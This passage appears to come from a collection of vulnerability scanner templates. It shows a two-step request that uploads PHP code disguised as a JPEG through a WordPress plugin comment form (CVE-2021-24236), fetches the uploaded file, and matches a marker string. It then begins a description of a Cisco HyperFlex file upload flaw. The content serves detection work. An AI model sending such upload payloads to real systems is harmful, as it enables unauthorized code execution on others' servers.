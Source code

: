 ```
Content-Disposition: form-data; name="naam"

{{randstr}}
------WebKitFormBoundaryIYl2Oz8ptq5OMtbU
Content-Disposition: form-data; name="image"; filename="{{php}}"
Content-Type: image/jpeg

<?php echo 'CVE-2021-24236'; ?>

------WebKitFormBoundaryIYl2Oz8ptq5OMtbU
Content-Disposition: form-data; name="submit"

Post Comment
------WebKitFormBoundaryIYl2Oz8ptq5OMtbU
Content-Disposition: form-data; name="comment_post_ID"

{{post}}
------WebKitFormBoundaryIYl2Oz8ptq5OMtbU
Content-Disposition: form-data; name="comment_parent"

0
------WebKitFormBoundaryIYl2Oz8ptq5OMtbU--

```

### Step - 2

```
GET /wp-content/plugins/imagements/images/{{php}} HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body_2
- words
  1. CVE-2021-24236

---

# Cisco HyperFlex HX Data Platform - Arbitrary File Upload

## Description

- Cisco HyperFlex HX Data Platform contains an arbitrary file upload vulnerability in the web-based management interface. An attacker can send a specific HTTP request to an affected device, thus enabling upload of files to the affected device with the permissions of the tomcat8 user.
- severity - medium
- tags - fileupload,intrusive,packetstorm,cve,cve2021,cisco
